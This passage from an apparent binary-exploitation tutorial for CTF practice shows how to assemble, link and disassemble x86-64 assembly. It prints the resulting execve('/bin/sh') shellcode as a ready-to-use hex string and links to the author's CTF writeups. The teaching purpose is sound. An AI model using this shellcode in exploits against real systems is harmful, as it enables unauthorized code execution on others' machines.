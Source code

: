 ```
	syscall
```

proceeding that, you will need to assemble it:
```
$	nasm -f elf64 shellcode.asm
```

after that you will just need to link it (`shellcode.o` should be a newly generated file from the previous step):
```
$	ld -o shellcode shellcode.o
```

after that, you will be able to see your shellcode with this:
```
objdump -D shellcode -M intel

shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	48 bf 2f 62 69 6e 2f 	movabs rdi,0x68732f6e69622f
  400087:	73 68 00 
  40008a:	57                   	push   rdi
  40008b:	54                   	push   rsp
  40008c:	5f                   	pop    rdi
  40008d:	48 31 f6             	xor    rsi,rsi
  400090:	48 31 d2             	xor    rdx,rdx
  400093:	b8 3b 00 00 00       	mov    eax,0x3b
  400098:	0f 05                	syscall 
```

There we can see the shellcode, and the opcodes which the assembly code assembles to. Putting it all together in a single hex string, our shellcode looks like this:
```
\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x54\x5f\x48\x31\xf6\x48\x31\xd2\xb8\x3b\x00\x00\x00\x0f\x05
```

#### Extra

Now depending on what target you are going after, you might have to write shellcode to jump through special hoops (just something to keep in mind).

Although we used `syscall` to get a shell, it is still possible to use `int 0x80` like with 32 bit systems.

Here are some ctf writeups I made, which utilize shellcode in this architecture:
```
https://github.com/guyinatuxedo/ctf/tree/master/csaw17/pwn/pilot
https://github.com/guyinatuxedo/ctf/tree/master/csaw18/pwn/shellpointcode
```

